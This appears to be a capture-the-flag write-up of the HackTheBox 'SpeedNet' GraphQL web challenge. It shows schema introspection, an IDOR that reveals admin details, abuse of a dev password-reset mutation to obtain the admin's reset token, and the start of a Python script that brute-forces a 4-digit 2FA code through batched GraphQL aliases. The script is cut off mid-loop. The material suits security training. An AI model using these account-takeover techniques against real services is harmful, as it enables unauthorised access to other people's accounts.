SpeedNet - HTB Web Challenge
GraphQL challenge | dev backdoor, password reset, and 2FA OTP brute force via alias batching.
This is a web challenge from HackTheBox. I found it very interesting and realistic.
The challenge comes with no source code, so everything is inside the web app. we have to extract the information from it ourselves.
The challenge overview: 

The challenge has a 4.7 out of 5 rating — no wonder it is so good.
Getting Started
The challenge is about GraphQL. 

There is an /emails/ page that we can use as our mailbox for account registration. test@email.htb.

I started Burp Suite to intercept the web traffic along i am checking. /graphql endpoint to query and do anything like CRUD with just one endpoint.

After logging in, we have a valid JWT token session. userId claim inside the token. I skipped this part and moved on to the introspection query instead.

Introspection
Using Burp Suite is like a cheat code. it generates an introspection query for us with just two clicks: 

GraphQL Visualizer: https://apis.guru/graphql-voyager/ userProfile, so the first thing I thought of was IDOR.

Schema Map — Queries
| Field | Args | Returns |
|---|---|---|
userProfile | userId: Int! | User |
currentInvoice | — | Invoice |
invoiceHistory | limit: Int | [Invoice] |
dataUsageStats | days: Int | [DataPoint] |


userId and returns the information belonging to that user ID.

I sent the request to Repeater and replaced userId with 1, we got the admin’s info. However, there is nothing we can do to take over the admin yet, unless there is a mutation around that can help us.
Plus, the admin has 2FA enabled. 

Mutations
I went back to the introspection response in Burp and scrolled through it: 

Here are all the mutations:
| Field | Args | Returns |
|---|---|---|
register | input: RegisterInput! | AuthResponse |
login | email!, password! | AuthResponse |
updateProfile | input: ProfileInput! | User |
forgotPassword | email! | String |
devForgotPassword | email! | String |
resetPassword | token!, newPassword! | String |
verifyTwoFactor | token!, otp! | AuthResponse |
resendOTP | token! | Boolean |
But first, I needed to learn the endpoint and format of the password reset process, so I tested it with test@email.htb to understand. /reset-password?token=<token>.

Taking advantage of the GraphQL tab in Burp Suite, we got the reset token of the admin user.   


There is another obstacle, two-factor authentication. On the first attempt, I tried to disable it with the updateProfile mutation, but it was not the right approach, since it takes the userId from the JWT token, and we can’t forge the JWT token.

It was a dead end. The next approach was brute force, but we needed to study the length of the OTP code first. So I enabled 2FA on our free account, and learned that it is a 4-digit OTP brute forcing looked promising.


Brute Force
It is brute force time.
Study the login and OTP processes: 

token that we got from the login response message, and the otp.

I created a simple OTP brute forcer for this lab to make our life easier:
Prerequisites:
- URL
- Token (got it from the login response)
- Batch (default: 200)
- Start and End (e.g., 0000-9999)
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
#!/usr/bin/env python3
# Simple GraphQL OTP brute forcer using aliases
# Usage: python3 otp_brute.py <url> <token> [batch] [start] [end]
# Author: chmakorkrichh
import sys
import json
import requests
def main():
if len(sys.argv) < 3:
print("Usage: python3 otp_brute.py <url> <token> [batch] [start] [end]")
return
url = sys.argv[1]
token = sys.argv[2]
batch = int(sys.argv[3]) if len(sys.argv) > 3 else 200
start = int(sys.argv[4]) if len(sys.argv) > 4 else 0
end = int(sys.argv[5]) if len(sys.argv) > 5 else 10000
headers = {"Content-Type": "application/json"}
for base in range(start, end, batch):
fields = []
for i in range(base, min(base + batch, end)):
otp = "%04d" % i
